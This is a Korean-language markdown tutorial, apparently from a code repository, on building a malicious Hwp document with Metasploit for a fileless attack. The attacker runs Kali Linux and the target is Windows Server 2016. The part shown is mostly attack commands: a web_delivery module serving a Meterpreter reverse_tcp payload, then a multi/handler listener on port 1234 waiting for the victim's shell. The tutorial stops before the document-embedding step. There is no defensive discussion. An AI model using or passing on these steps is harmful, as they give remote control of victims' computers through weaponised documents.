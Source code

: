 # 메타스플로잇(Metasploit)를 사용해 악성한글문서(Hwp)만들어 파일리스(Fileless) 공격하기

- 공격 서버 :smiling_imp: : 칼리 리눅스(Kali Linux amd64)
- 공격 대상 :skull: : 윈도우 서버 2016 (Windows Server 2016)

### 1. :smiling_imp: Metasploit으로 페이로드 생성

metasploit 실행

```
msfconsole
```

![1](https://i.ibb.co/kJ1xBMR/Fileless-msf-hwp-1.png)

```
use exploit/multi/script/web_delivery
set target 2
set LHOST 192.168.0.0
set payload windows/meterpreter/reverse_tcp
exploit -j
```

![2](https://i.ibb.co/92mwLNq/Fileless-msf-hwp-2.png)



### 2. :smiling_imp: 메타스플로잇으로 핸들러 서버 오픈

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.0.0
set LPORT 1234
show options
exploit
```
